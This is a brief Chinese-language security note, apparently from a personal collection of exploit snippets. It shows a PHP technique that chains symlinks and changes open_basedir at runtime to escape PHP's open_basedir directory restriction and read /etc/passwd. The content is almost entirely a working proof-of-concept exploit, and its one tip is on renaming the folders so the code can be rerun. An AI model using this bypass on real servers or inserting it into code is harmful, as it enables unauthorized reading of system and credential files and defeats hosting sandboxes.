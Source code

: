 # 利用symlink绕过open_basedir

## 利用symlink绕过open_basedir

### 参考

- twitter

### 测试

```php
mkdir('/var/www/html/a/b/c/d/e/f/g/',0777,TRUE);
symlink('/var/www/html/a/b/c/d/e/f/g','foo');
ini_set('open_basedir','/var/www/html:bar/');
symlink('foo/../../../../../../','bar');
unlink('foo');
symlink('/var/www/html','foo');
echo file_get_contents('bar/etc/passwd');
```

每次要更换文件夹a和bar和foo，不然会报错文件已存在。

